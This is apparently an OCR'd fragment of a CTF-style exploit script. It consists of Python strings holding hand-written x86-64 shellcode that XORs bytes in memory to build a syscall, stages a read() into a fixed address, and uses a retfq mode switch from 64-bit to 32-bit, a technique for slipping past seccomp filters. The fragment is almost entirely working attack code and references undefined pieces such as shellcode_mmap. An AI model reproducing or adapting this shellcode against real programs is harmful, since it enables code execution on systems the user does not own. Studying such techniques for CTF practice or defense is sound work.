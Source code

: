 ```plain
shellcode_read = '''
/*read(0,0x40404040,0x70)*/

push 0x40404040 /*set rsi*/
pop rsi

push 0x40 /*set rdi*/
pop rax
xor al,0x40
push rax
pop rdi

xor al,0x40 /*set rdx*/
push 0x70
pop rdx

/*syscall*/
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x57],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x58],cl

push rdx /*set rax*/
pop rax
xor al,0x70
'''

shellcode_retfq = '''
/*mode_64 -> mode_32*/
push rbx
pop rax

xor al,0x40

push 0x72
pop rcx
xor byte ptr[rax+0x40],cl
push 0x68
pop rcx
xor byte ptr[rax+0x40],cl
push 0x47
pop rcx
sub byte ptr[rax+0x41],cl
push 0x48
pop rcx
sub byte ptr[rax+0x41],cl
push rdi
push rdi
push 0x23
push 0x40404040
pop rax
push rax
'''

# mmap
shellcode += shellcode_mmap
shellcode += append

# read shellcode
```